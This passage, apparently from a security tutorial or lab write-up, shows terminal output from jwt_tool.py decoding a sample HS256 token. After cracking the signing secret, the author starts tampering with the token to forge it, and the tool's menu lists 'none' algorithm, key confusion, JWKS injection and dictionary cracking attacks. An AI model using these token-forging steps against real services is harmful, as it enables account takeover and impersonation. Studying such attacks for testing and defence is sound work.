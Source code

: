 If we got lucky we can get the Correct key. Now after cracking the secret we can just forge the token.

```bash
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjphbmFzfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM
=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = anas

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------


########################################################
#  Options:                                            #
#                ==== TAMPERING ====                   #
#  1: Tamper with JWT data (multiple signing options)  #
#                                                      #
#             ==== VULNERABILITIES ====                #
#  2: Check for the "none" algorithm vulnerability     #
#  3: Check for HS/RSA key confusion vulnerability     #
#  4: Check for JWKS key injection vulnerability       #
#                                                      #
#            ==== CRACKING/GUESSING ====               #
#  5: Check HS signature against a key (password)      #
#  6: Check HS signature against key file              #
#  7: Crack signature with supplied dictionary file    #
#                                                      #
#            ==== RSA KEY FUNCTIONS ====               #
#  8: Verify RSA signature against a Public Key        #
#                                                      #
#  0: Quit                                             #
########################################################

Please make a selection (1-6)
> 1

====================================================================
This option allows you to tamper with the header, contents and 
signature of the JWT.
====================================================================

Token header values:
[1] typ = JWT
[2] alg = HS256
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
```